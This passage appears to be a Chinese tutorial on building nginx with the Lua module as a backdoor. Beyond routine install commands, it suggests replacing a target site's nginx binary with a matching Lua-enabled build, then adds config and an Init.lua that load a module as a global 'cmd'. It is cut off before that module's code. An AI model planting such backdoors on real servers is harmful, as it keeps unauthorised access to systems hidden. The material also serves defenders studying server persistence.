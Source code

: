 1. openresty的安装
```
tar xzvf ngx_openresty-VERSION.tar.gz
cd ngx_openresty-VERSION/
./configure
gmake
gmake install
```
1. tengine的安装
```
wget http://tengine.taobao.org/download/tengine-2.1.2.tar.gz
tar -zxvf tengine-2.1.2.tar.gz
cd tengine-2.1.2
./configure
make
make install
```

#### 为nginx安装lua-nginx-module
为nginx安装lua-nginx-module分为以下几个步骤：

1. 安装LuaJIT 2.0或2.1或 lua 5.1（5.2以上版本不支持）
1. 下载ngx_devel_kit、 ngx_lua

编译安装过程如下：
```shell
wget 'http://nginx.org/download/nginx-1.9.15.tar.gz'
 tar -xzvf nginx-1.9.15.tar.gz
 cd nginx-1.9.15/
 export LUAJIT_LIB=/path/to/luajit/lib
 export LUAJIT_INC=/path/to/luajit/include/luajit-2.1
 ./configure --prefix=/opt/nginx \
         --with-ld-opt="-Wl,-rpath,/path/to/luajit-or-lua/lib" \
         --add-module=/path/to/ngx_devel_kit \
         --add-module=/path/to/lua-nginx-module
 make -j2
 make install
```
nginx 1.9.11及以后的版本支持动态加载模块，将ngx_devel_kit、 ngx_lua编译为.so文 件，通过load_module指令就可以加载到nginx中了，
```shell
load_module /path/to/modules/ndk_http_module.so;  # assuming NDK is built as a dynamic module too
load_module /path/to/modules/ngx_http_lua_module.so;
```
将nginx模块编译为动态模块的方法可以参考：https://www.nginx.com/resources/wiki/extending/converting/
在实际的应用中，如果目标网站中是原生的nginx，我们也可以考虑用nginx -V命令获取到目标网站的编译参数，然后在本地虚拟机中编译一个相同版本、带有lua模块的nginx二进制文件替换到目标站点的。

### 后门
在nginx.conf文件中的http节中加入如下内容：

```ini

http {
  include       mime.types;
  # lua 文件的位置
  lua_package_path "/usr/local/openresty/nginx/conf/lua_src/?.lua;;";
  # nginx启动阶段时执行的脚本，可以不加
  init_by_lua_file 'conf/lua_src/Init.lua';
```
conf/lua_src/Init.lua中的内容如下：
```lua
local p = "/usr/local/openresty/nginx/conf/lua_src"
local m_package_path = package.path
package.path = string.format("%s?.lua;%s?/init.lua;%s", p, p, m_package_path)
cmd = require("t")
```
cmd = require("t")表示加载了t.lua中的模块，并命名为cmd，以后在nginx的所有执行阶段通过cmd变量就可以调用了。